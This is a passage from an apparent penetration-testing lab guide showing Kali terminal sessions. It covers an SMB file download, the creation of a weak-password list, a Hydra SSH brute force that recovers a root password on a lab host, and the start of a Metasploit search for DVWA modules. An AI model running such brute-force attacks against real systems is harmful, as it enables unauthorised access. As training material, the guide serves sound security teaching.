 ```bash
  test.txt                            N       33  Thu Dec  7 12:00:00 2023

                524288 blocks of size 1024. 505632 blocks available
smb: \> get test.txt
getting file \test.txt of size 33 as test.txt (32.2 KiloBytes/sec)
smb: \> exit
```

---

## LAB 4: Password Attacks

### Step 1: Create Password List
```bash
root@kali-user1:/# cat > passwords.txt << EOF
password
admin
123456
password123
admin123
root
toor
letmein
EOF

root@kali-user1:/# wc -l passwords.txt
8 passwords.txt
```

### Step 2: SSH Brute Force
```bash
root@kali-user1:/# apt install -y hydra
[... installation ...]

root@kali-user1:/# hydra -l root -P passwords.txt ssh://172.16.0.20
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak

[WARNING] Many SSH configurations limit the number of parallel tasks
[DATA] max 8 tasks per 1 server, overall 8 tasks, 8 login tries (l:1/p:8)
[DATA] attacking ssh://172.16.0.20:22/
[22][ssh] host: 172.16.0.20   login: root   password: toor
1 of 1 target successfully completed, 1 valid password found
```

---

## LAB 5: Exploitation Practice

### Step 1: Metasploit Setup
```bash
root@kali-user1:/# apt install -y metasploit-framework
[... installation takes a few minutes ...]

root@kali-user1:/# msfconsole -q
msf6 > db_status
[*] Connected to msf. Connection type: postgresql.

msf6 > search dvwa

Matching Modules
================

```